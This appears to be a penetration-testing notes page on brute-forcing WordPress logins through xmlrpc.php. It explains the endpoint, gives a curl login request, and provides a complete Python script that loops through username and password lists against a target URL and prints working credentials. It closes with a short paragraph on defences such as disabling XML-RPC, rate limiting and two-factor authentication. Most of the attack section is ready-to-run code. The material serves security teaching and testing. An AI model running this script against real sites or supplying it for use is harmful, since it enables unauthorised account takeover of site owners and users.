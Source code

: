 # Brute Force

### Brute Force via xmlrpc.php

- xmlrpc.php is a WordPress file that allows external programs or apps to interact with a site remotely, such as publishing posts, managing comments, or performing administrative actions. It exists mainly for backward compatibility and remote management, but if left unrestricted, it increases the site’s attack surface and can be exploited by attackers.

- Attackers can send repeated login attempts directly to xmlrpc.php, often batching multiple passwords in a single request, which can bypass protections like rate limits or CAPTCHAs on the standard login page. The server responses clearly indicate whether the credentials are correct, making brute force attacks faster and harder to detect if proper security measures—like 2FA, rate limiting, or restricting access to XML-RPC—are not in place.

The request is below:

```
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params>
<param><value>admin</value></param><param><value>pass</value></param></params></methodCall>" http://examplewp.com/xmlrpc.php
```

Example:

![xmlrpc_bruteforce](./img/xmlrpc_brute_force.png)


This request can be turned into a brute force attack with a burp suite intruder, wpscan or a simple script. Here's a simple brute force script:


```python
#!/usr/bin/env python3
import requests
import argparse

parser = argparse.ArgumentParser(description="XML-RPC brute force test (lab only)")
parser.add_argument("-u", "--url", required=True, help="Target WordPress xmlrpc.php URL")
parser.add_argument("-U", "--userlist", required=True, help="File containing usernames")
parser.add_argument("-P", "--passlist", required=True, help="File containing passwords")
args = parser.parse_args()

with open(args.userlist, "r") as f:
    users = [line.strip() for line in f if line.strip()]

with open(args.passlist, "r") as f:
    passwords = [line.strip() for line in f if line.strip()]

if args.url[-3:] != "php":
    if args.url[-1] != "/":
        args.url = args.url + "/"
    args.url = args.url + "xmlrpc.php"

for username in users:
    for password in passwords:
        xml = f"""
        <methodCall>
            <methodName>wp.getUsersBlogs</methodName>
            <params>
                <param><value>{username}</value></param>
                <param><value>{password}</value></param>
            </params>
        </methodCall>
        """
        try:
            response = requests.post(args.url, data=xml, timeout=10)
            if "faultString" not in response.text:
                print(f"[SUCCESS] Username: {username} Password: {password}")
                
                break
            else:
                print(f"[FAIL] {username}:{password}")
        except requests.exceptions.RequestException as e:
            print(f"[ERROR] {username}:{password} - {e}")

```

And this script is more advanced >> https://github.com/aress31/xmlrpc-bruteforcer/


### Protection Against XML-RPC Brute Force
- To protect against brute force attacks via xmlrpc.php, site owners should either completely disable or restrict access to the endpoint if it is not needed, implement strong rate limiting to prevent repeated login attempts, enforce two-factor authentication for all admin accounts, monitor and block suspicious IPs showing repeated failures, and use security plugins or a WAF that specifically covers XML-RPC traffic, ensuring that automated requests cannot bypass standard login protections.
